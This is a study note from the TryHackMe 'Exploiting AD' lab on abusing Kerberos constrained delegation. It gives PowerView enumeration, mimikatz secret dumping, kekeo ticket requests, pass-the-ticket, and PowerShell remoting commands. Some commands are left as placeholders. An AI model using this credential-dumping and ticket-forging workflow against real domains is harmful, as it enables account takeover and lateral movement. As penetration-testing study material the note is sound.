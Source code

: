 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. For all the commands shown in kekeo, I aim to provide the equivalent commands; in terms of functionality, in Rubeus.

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Exploitation steps

#### Step 1

Given that we have breached a machine, and gained administrative access, we can first try to retrieve credentials of any service accounts that are present on the current host. To achieve this, we can use cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

Next, we can use **mimikatz** to dump the secrets:

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 2

Now that we have the secrets (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT). Next, we can generate the _Ticket Granting Service_ (TGS) for a particular service that our identified service account (step 1) can delegate.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<username> /domain:<domain> /password:<password>

C:\> rubeus.exe s4u ... 
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<TGT> /user:<username> /service:<servicename>

C:\> rubeus.exe ... 
```
{% endcode %}

#### Step 3

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our desired service, we can use it to perform a _Pass-the-Ticket_ attack, which will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

#### Exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

> Note that we have to generate the TGS for both the HTTP and WSMAN services

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

